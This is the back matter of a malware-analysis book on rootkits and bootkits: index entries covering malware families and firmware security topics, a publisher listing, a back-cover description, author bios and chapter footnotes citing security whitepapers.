NULL device, 204

NuMega SoftIce, 44

### O

Ob* functions, 41

OBJECT_HEADER struct, 41

OBJECT_TYPE struct, 41

ObReferenceObjectByHandle, 23

ObReferenceObjectByName, 30

Oleksiuk, Dmytro, 310

Olmarik family of malware, 4. *See also* TDL3

Olmasco, 90, 133–134

bootkit infection, 138–141

bot trackers, countermeasures, 137

filesystem, 142, 144–145

hard drive access, monitoring, 353

integrity verification, 143

interception methods, 40

MBR partition table modification, 235

partition table infection, 133

PPI distribution, 134

rootkit functionality

filesystem, maintaining, 141–142

hooking hard drive, 141

payload injection, 141

sandbox analysis, bypassing, 137

OpenProcedure, 42

OpenSSL, 326

Open Systems Interconnection (OSI), 206

Option ROM, 267, 332, 339

original equipment manufacturers (OEMs), 323–324

overlord32.dll, 198, 204

overlord64.dll, 198, 204

### P

partition tables

MBR, as part of (*see* Master Boot Record (MBR))

Olmasco, infection by, 139, 140

Windows, 138

PatchGuard, 10, 25, 34, 255

Pay-Per-Install (PPI), 4

PCH (Platform Controller Hub), 288, 365

PCI bus driver, 38, 368

PCI configuration space, 367

PCIe devices, 288

PE (Portable Executable). *See* Portable Executable (PE)

Perigaud, Fabien, 314

Permeh, Ryan, 53

Petya, 209

administrator privileges, acquiring, 212

bootloader components, 210, 212, 214, 215–216, 219–220, 223

complexity, 225

cryptographic functionality, 216

encrypting, 215–216

functionality, 225

GPT partition tables, parsing, 221–222

hard drive, infecting

GPT hard drive, 214–215

MBR hard drive, 213–214

infection methods, 212

master file table, encrypting

decrypting, 224

disks, finding, 220

EncryptionStatus, 220

locating, 222, 223

metadata, 225

parsing, 223–224

MBR infection, 230

ransom key, 217–218

ransom message, displaying, 224

ransom URLs, generating, 219

Satana, compared to, 230

system, crashing, 219, 220

ZIP archives, 209

Platform Controller Hub (PCH), 288, 365

platform key (PK), 330, 337

plug and play (PnP), 38, 74

PLUGIN_INTERFACE, 17, 20

plug-ins

distributed denial of service (DDoS) botnets, role in, 15–16

downloads from C&C servers, 17–19

Festi manager, 17

functions, 15

polymorphism, 156

Portable Executable (PE)

headers, 6–7, 137

images, 322

position-independent code, 190

POSIX, 95

Power Loader, 186

Power Management Unit (PMU), 287

Power-On Self-Test (POST), 59

PPI (Pay-Per-Install), 4

proof of concept (PoC) 53–54, 272, 307

_ProtoHandler routine 22

PRx protections 264, 294–296

pshed.dll 67

PsSetLoadImageNotifyRoutine 37

public key certificates 323

Python 27

Bochs emulator, use with 120

decrypting MBR 99

IPL, writing onto disk image 120

MBR code, script to decrypt 99

MBR code, writing onto disk image 120

MBR loaders 109

VBR code, writing onto disk image 120

### Q

QEMU emulator 116

### R

ransomware 207–208

bootkit functionality 208, 209

C&C servers, communicating with 211

history of 208–209

operations, common 210–211

Petya (*see* Petya)

ransom key 217–218

ransom message, displaying 224, 229

Satana (*see* Satana)

types of 208

UEFI (*see* Unified Extensible Firmware Interface (UEFI))

victims 230, 231

RC4 cipher 136, 190, 210

RC5 cipher 210

RC6 cipher 168

RDPdoor 171

ReadFile 11

ReadFileX 142

ReadFromTcpStream 18–19

read protections (RP) 295

Reaper 50

Release 18

reset 229

return-oriented programming (ROP) 184

Reveton 208

Rivest ciphers 136, 168, 190, 210

Rivest, Ron 168

rkloader 276, 279

Robshaw, Matt 168

Root Complex Base Address (RCBA) 368

Root Complex Register Block (RCRB) 368

rootkits. *See also* TDL3; TDL4

Aeroflot crime case 14

detecting 43

detection avoidance 35, 42

evolving nature of 35

Festi rootkit (*see* Festi rootkits)

history of 44–45

injection 269–271

BIOS update process, exploiting 272–274

Capsule Update, use of 274–275

SMM privilege escalation, using 271–272

interception methods

object dispatcher, intercepting 41–43

system calls, intercepting 37–38

system events, intercepting 36–37

kernel-mode attacks 269

LOJAX 297

neutralizing 43

object data, altering/manipulating 41

pointers 42

purpose 35

Sony 43

trends 12

root of trust 79, 293, 297–299, 311–312, 331

ROP (return-oriented programming) 184

Rovnix bootkit 10, 83, 91–92, 106, 115

architecture 148, 149–150

basic blocks 153

boot process, interference with 160

Carberp trojan malware (*see* Carberp trojan malware)

communication channels, hidden 169–171

complexity 175

create-process handler 165

encryption 168

evolution 148–149

filesystem 149, 168–169

hard drive access, monitoring 353

hooking by 160–161, 163, 167

infection algorithm 150–151

interception methods 40

Interrupt Descriptor Table, abuse of 161–162

IPL infection 154, 159, 162, 174–175, 235

kernel-mode driver 163–164, 169, 174

memory allocation 162

origins 147

payload module, injecting 164–166

self-defense mechanisms, stealth 166–167

symbolic link 168

system registry key 152

VBR target 145

Virtual File Allocation Table (VFAT) filesystem 168

RSA encryption 211

### S

S3 Boot Script 205, 298, 306–307

dispatch code 309

script vulnerability 311

sleep state 307

suspend-resume cycle 307

weaknesses, exploiting 307–310

sandbox environment 21, 173

Satana

bootloader components 210

dropper 225–226

debug information 227–228

interrupt 13th handler (INT 13h), use of 229

MBR decryptor code 227

MBR infection 226–230

Petya, compared to 230

ransom message display 229

recovery from 231

TEMP folder, executing copy of 226

sciport.sys 195

SCSI disk devices 38

SEC (security) phase, UEFI 243

Second Level Address Translation (SLAT) 80

SecSmiFlash 306

Secure Boot 51, 53, 59, 130, 261

attacking

overview 335

patching PI firmware 335–338

bootkit threats, as defense against 319–320

bypassing 79, 290, 293, 299, 337

chain of trust 298

Compatibility Support Module (CSM), incompatible with 234

creating 234

disabling 299

enabling 66

finite state machine 298

firmware rootkit implants, bypassing 270

initialization 248

integrity checks 75

origins 293

OS Secure Boot 320

Platform Secure Boot 320

protections 80, 334–335

Measured Boot 338–339

Verified Boot 338–339

signature verification algorithm 327

SMM-based attacks 293

Unified Extensible Firmware Interface (UEFI) 320

secure boot keys 328–329

secure boot sequence 321

code integrity checks 326

db database 323–326, 347

dbr database 328

dbt database 328

dbx database 326–328, 337

executable verification via digital signatures 322–323

implementation 320–321

key exchange key (KEK) 329, 337

platform key (PK) 330, 337

policy 332–334

relationship 78–79, 234, 253

root of trust 331

time-based verification 328

variables 302

verification 79

vulnerabilities 298, 320

Security (SEC) phase, UEFI 243

SELinux 75

Serial Peripheral Interface (SPI) bus 365

SetFilePointer 226

SHA1 191, 197

Shamoon 210

Sheldor 171

shellcode 182, 184–186, 309

Shell_TrayWnd 182, 184

Sklej, Nikolaj 274

SIB 196

Sidney, Ray 168

signing certificates 322

Skrenta, Rick 50

Skylake CPU 253

SLAT (Second Level Address Translation) 80

SMBus 287

SMC (System Management Controller) 289

SMI (System Management Interrupt). *See* System Management Interrupt (SMI)

SmiFlash 273, 306

SMM. *See* System Management Mode (SMM)

SMM BIOS Write Protection 263

SMM BIOS Write Protection Bit 297

SMM_BWP 263

SMRAM 301, 304

SMTP servers 31, 32

Snort 22

Socket Secure (SOCKS) 34

Soeder, Derek 53

SoftIce 44

Software Publisher Certificate (SPC) 73

SOIC-8 clip 378

Sony rootkit 43

Southbridge 365

SPI (Serial Peripheral Interface) bus 365

SPI Base Address Register (SPIBAR) 368–369

SPI flash 242, 244–245, 263, 265, 269, 271, 312

chipset, stored in 366

data, reading 372–373

firmware image stored in 366

firmware location 369

forensic analysis 365

FT2232 Mini Module, with 375

image parsing 389–390

layout 381

memory chips 376–377

modifying contents 335

protection 294–295, 296

read/write access 287

regions 381–382

registers (*see* SPI registers)

SPI programmers 374–375

SPI registers 369

array of flash data (FDATAX) register 372–374

flash address (FADDR) register 370, 373

FREGI register 370, 372

Hardware Sequencing Flash Control (HSFC) register 370–371, 373

Hardware Sequencing Flash Status (HSFS) register 370–371

spoolsvc.exe 182

SSDT (System Service Descriptor Table) 10, 25, 43

static analysis

general approaches 108

using IDA Pro (*see* IDA Pro)

MBR, relationship 99

static signatures 89

Volume Boot Record (VBR) (*see* Volume Boot Record (VBR))

Stoned 53–54

Structure window 382

Stuxnet 85

supply chain attacks, compromised 291

firmware attacks, relationship 364–365

potential issues 292

risk mitigation 293–294

SweetScape 241

symbolic link 168

system kernel

integrity 43

restoring 43–44

System Management Controller (SMC) 289

System Management Interrupt (SMI) handler 257, 258, 271, 296

exploiting 301, 303

parameters 303

address/pointer validation 305

vulnerabilities 304

System Management Mode (SMM) 258

BIOS Write Protection Bit 297

data, receiving 303

design features 301

functionality 294

initialization 244

introduction 244

privilege escalation 270, 286

rootkits target, 270, 286

SPI Flash, relationship 294

SPI Protected Snipers, relationship 264

threats 272, 287

vulnerabilities 264

SystemRoot

System Service Descriptor Table (SSDT), 25, 43

### T

tag-value-term scheme

TBB (Trusted Boot Board) 347

TCP flood 32

TCP/IP networking stack 206

TCP/IP protocol stack 206

tcpip.sys driver 30

TCP network protocol 26

TCP stream 18

TDL3 hooks

TDL3

bootkit techniques

boot process infection

detection, evading 5

distribution

malicious driver object

evolution

hidden filesystem 11

file table

hard drive access monitoring

hooks 4

kernel-mode hooks 9

infection mechanism

infection process 7

origins

masquerading on Windows interfaces

read/write interception

reliability

.rsrc section

TDL4, compared to

TDL4

boot code modification

boot-time security bypass 88

disabling code integrity checks 89

evolution 133

interception methods

introduction

MBR code modification 188

MBR partition table modification

origins

system infection 86

forcing system reboot 86

TDL3, compared to

TDSS malware family. *See* TDL3

Tereshkin, Alexander 14

Terse Executable (TE) images 322

ThinkPwn (LEN-8324) 272

Thunderbolt Ethernet adapter 268

Time Stamping Authority (TSA) service 326

Titan 14

TOCTOU (Time-of-Check to Time-of-Use) 271

TOR protocol 219

TorrentLocker 209

Transport Driver Interface 38

trojans

bootkit persistence methods

Carberp malware (*see* Carberp trojan malware)

GpCode malware

outbreaks

Petya (*see* Petya)

Satana (*see* Satana)

Shamoon

Trojan.Win32.EquationDrug.c 262

Trusted Boot Board (TBB) 347

Trusted Platform Module Platform Configuration Registers (TPM PCRs) 339, 344

TSA (Time Stamping Authority) service 326

### U

UDP flood 32

UEFITool 386

Unified Extensible Firmware Interface (UEFI)

BMC, using 314

BmMain 248

boot configuration data 248

Boot Device Selection (BDS) 244

bootkit development, impact on 256

bootloaders 266

boot manager 245

boot process 236, 265–266, 335

Boot Services

complexity 244

definition 234

development 234

digital signatures 248

disk partitioning 236

Driver Execution Environment (DXE) 244

DXE drivers 266

establishing execution environment 246

Exit Boot Services 249

firmware 242–243, 245, 265–266, 269, 276

forensics (*see* forensics, firmware)

GPT, support 236

implementation 234

legacy BIOS, vs. 237, 243

memory protection bits 264

modern vs. legacy 234

NVRAM variable 244

open source

Option ROM (*see* Option ROM)

OS bootloader 245

OS loader 245

partitioning scheme 236

platform initialization 243

Pre-EFI Initialization (PEI) phase 243

protected mode 249

protocol initializations 244

ransomware

rootkits

Computrace/LoJack (*see* Computrace)

Vector-EDK (*see* Vector-EDK)

runtime services 249

Secure Boot (*see* Secure Boot)

security (SEC) phase 243

specification 244

SPI flash (*see* SPI flash)

standards 234

System Management Mode 258

UEFITool (*see* UEFITool)

vulnerabilities 235, 263–265, 269, 308

Windows Boot Manager, accessing 248

unique identifiers (UIDs) 134

Update App 305

Update Driver 305

Uroburos malware family 14

User Account Control (UAC) 179

### V

Vbootkit 53–54

VBR (Volume Boot Record). *See* Volume Boot Record (VBR)

VDO (volume device object) 39

Vector-EDK 275, 277–280

Vilaca, Pedro 307

VirtualBox driver 75

Virtual File Allocation Table (VFAT) filesystem 168

Virtual File System (VFS) 8

virtualization-based security (VBS) 289

virtual machine manager (VMM) 130

virtual machines 5, 116, 310

Virtual Secure Mode (VSM) 80–81, 250, 252, 255

VirusTotal 5

VMware 20

debugging case example

decryption 157, 158

IPL polymorphic decryptor, dissecting the 156–159

MBR code, observing 154–155

memory allocation 156

VBR code, observing 154–155

decryption 153

GDB debugger, use with 124–126

Player version 125

Professional version 125

VMware Workstation 116

configuring 125–126

GDB, combining with IDA 126–130

malicious bootstrap, debugging 130

Volume Boot Record (VBR) 61, 62–64

Bochs emulator, use with 120

bootkits, role in 96

HiddenSectors, use of 187

infection techniques 83, 105–106

Parameter Block 106

TDL4 infection 87, 91, 92–93

unmodified 152

volume device object (VDO) 39

Vrublesky, Pavel 14

War Games 44

Win32 142, 149

Win32/Gapz.A 179. *See also* Gapz

Win32/Gapz.B 179

Win32/Gapz.C 177, 178

### Books

**Rootkits and Bootkits**

FALL 2020, 368 PP., $39.95

ISBN 978-1-59327-865-6

**THE IDA PRO BOOK, 2ND EDITION**

The Unofficial Guide to the World's Most Popular Disassembler

by CHRIS EAGLE

JULY 2011, 672 PP., $69.95

ISBN 978-1-59327-289-0

**PHONE:**

1.800.420.7240 OR

1.415.863.9900

**EMAIL:**

SALES@NOSTARCH.COM

**WEB:**

[WWW.NOSTARCH.COM](http://WWW.NOSTARCH.COM)

## "Follow in the footsteps of professionals with a record of discovering advanced malware."

— Rodrigo Rubira Branco

*Rootkits and Bootkits* will teach you how to understand and counter sophisticated, advanced threats buried deep in a machine's boot process or UEFI firmware.

With the aid of numerous case studies and professional research from three of the world's leading security experts, you'll trace malware development over time from rootkits like TDL3 to present-day UEFI implants and examine how they infect a system, persist through reboot, and evade security software. As you inspect and dissect real malware, you'll learn:

How Windows boots—including 32-bit, 64-bit, and UEFI mode—and where to find vulnerabilities

The details of boot process security mechanisms like Secure Boot, including an overview of Virtual Secure Mode (VSM) and Device Guard

Reverse engineering and forensic techniques for analyzing real malware, including bootkits like Rovnix/Carberp, Gapz, TDL4, and the infamous rootkits TDL3 and Festi

How to perform static and dynamic analysis using emulation and tools like Bochs and IDA Pro

How to better understand the delivery stage of threats against BIOS and UEFI firmware in order to create detection capabilities

How to use virtualization tools like VMware Workstation to reverse engineer bootkits and the Intel Chipsec tool to dig into forensic analysis

Cybercrime syndicates and malicious actors will continue to write ever more persistent and covert attacks, but the game is not lost. Explore the cutting edge of malware analysis with *Rootkits and Bootkits*.

### About the Authors

**ALEX MATROSOV** is an Offensive Security Research Lead at NVIDIA with over 20 years of experience in reverse engineering, advanced malware analysis, firmware security, and exploitation techniques. **EUGENE RODIONOV**, PhD, is a Security Researcher at Intel working in BIOS security for Client Platforms. **SERGEY BRATUS** is a Research Associate Professor in the Computer Science Department at Dartmouth College. He has previously worked at BBN Technologies on natural language processing research.

## Footnotes

### Chapter 1

1. [`static1.esetstatic.com/us/resources/white-papers/TDL3-Analysis.pdf`](http://static1.esetstatic.com/us/resources/white-papers/TDL3-Analysis.pdf)

2. Rodrigo Rubira Branco, Gabriel Negreira Barbosa, and Pedro Drimel Neto, "Scientific but Not Academic Overview of Malware Anti-Debugging, Anti-Disassembly and Anti-VM Technologies" (paper presented at the Black Hat USA 2012 conference, July 21–26, Las Vegas, Nevada), [`media.blackhat.com/bh-us-12/Briefings/Branco/BH_US_12_Branco_Scientific_Academic_WP.pdf`](https://media.blackhat.com/bh-us-12/Briefings/Branco/BH_US_12_Branco_Scientific_Academic_WP.pdf).

3. [`blogs.technet.microsoft.com/markrussinovich/2005/10/31/sony-rootkits-and-digital-rights-management-gone-too-far/`](https://blogs.technet.microsoft.com/markrussinovich/2005/10/31/sony-rootkits-and-digital-rights-management-gone-too-far/)

### Chapter 2

1. Brian Krebs, "Financial Mogul Linked to DDoS Attacks," *Krebs on Security* blog, June 23, 2011, [`krebsonsecurity.com/2011/06/financial-mogul-linked-to-ddos-attacks/`](http://krebsonsecurity.com/2011/06/financial-mogul-linked-to-ddos-attacks/).

2. Eugene Rodionov and Aleksandr Matrosov, "King of Spam: Festi Botnet Analysis," May 2012, [`www.welivesecurity.com/wp-content/media_files/king-of-spam-festi-botnet-analysis.pdf`](http://www.welivesecurity.com/wp-content/media_files/king-of-spam-festi-botnet-analysis.pdf).

### Chapter 4

1. David Harley, Robert Slade, and Urs E. Gattikerd, *Viruses Revealed* (New York: McGraw-Hill/Osborne, 2001).

### Chapter 6

1. See Moxie Marlinspike, "Internet Explorer SSL Vulnerability," [`moxie.org/ie-ssl-chain.txt`](https://moxie.org/ie-ssl-chain.txt).

### Chapter 10

1. For more detail on the PPI scheme used for bootkits of this type, see Andrey Rassokhin and Dmitry Oleksyuk, "TDSS Botnet: Full Disclosure," [`web.archive.org/web/20160316225836/`](https://web.archive.org/web/20160316225836/) [`nobunkum.ru/analytics/en-tdss-botnet/`](http://nobunkum.ru/analytics/en-tdss-botnet/)].

### Chapter 11

1. Debug registers dr4 and dr5 are reserved when debug extensions are enabled (when the DE flag in control register cr4 is set) and attempts to reference the dr4 and dr5 registers cause invalid-opcode exceptions (#UD). When debug extensions are not enabled (when the DE flag is clear), these registers are aliased to debug registers dr6 and dr7.

2. [`www.welivesecurity.com/media_files/white-papers/CARO_2011.pdf`](https://www.welivesecurity.com/media_files/white-papers/CARO_2011.pdf); [`www.welivesecurity.com/wp-content/media_files/Carberp-Evolution-and-BlackHole-public.pdf`](https://www.welivesecurity.com/wp-content/media_files/Carberp-Evolution-and-BlackHole-public.pdf)

### Chapter 12

1. Eugene Rodionov and Aleksandr Matrosov, "Mind the Gapz," Spring 2013, [`www.welivesecurity.com/wp-content/uploads/2013/04/gapz-bootkit-whitepaper.pdf`](http://www.welivesecurity.com/wp-content/uploads/2013/04/gapz-bootkit-whitepaper.pdf).

### Chapter 16

1. ESET Research, "LOJAX: First UEFI Rootkit Found in the Wild, Courtesy of the Sednit Group" (whitepaper), September 27, 2018, [`www.welivesecurity.com/wp-content/uploads/2018/09/ESET-LoJax.pdf`](https://www.welivesecurity.com/wp-content/uploads/2018/09/ESET-LoJax.pdf).

2. You can find a detailed technical explanation of the S3–to–working-state resumption implementation in Jiewen Yao and Vincent J. Zimmer, "A Tour Beyond BIOS Implementing S3 Resume with EDKII" (Intel whitepaper), October 2014, [`firmware.intel.com/sites/default/files/A_Tour_Beyond_BIOS_Implementing_S3_resume_with_EDKII.pdf`](https://firmware.intel.com/sites/default/files/A_Tour_Beyond_BIOS_Implementing_S3_resume_with_EDKII.pdf).

3. More information can be found in the aforementioned paper "A Tour Beyond BIOS: Implementing S3 Resume with EDKII" ([`firmware.intel.com/sites/default/files/A_Tour_Beyond_BIOS_Implementing_S3_resume_with_EDKII.pdf`](https://firmware.intel.com/sites/default/files/A_Tour_Beyond_BIOS_Implementing_S3_resume_with_EDKII.pdf)).

4. [`invisiblethingslab.com/resources/bh09usa/Ring%20-3%20Rootkits.pdf`](https://invisiblethingslab.com/resources/bh09usa/Ring%20-3%20Rootkits.pdf)

5. [`www.blackhat.com/docs/eu-17/materials/eu-17-Goryachy-How-To-Hack-A-Turned-Off-Computer-Or-Running-Unsigned-Code-In-Intel-Management-Engine.pdf`](https://www.blackhat.com/docs/eu-17/materials/eu-17-Goryachy-How-To-Hack-A-Turned-Off-Computer-Or-Running-Unsigned-Code-In-Intel-Management-Engine.pdf)
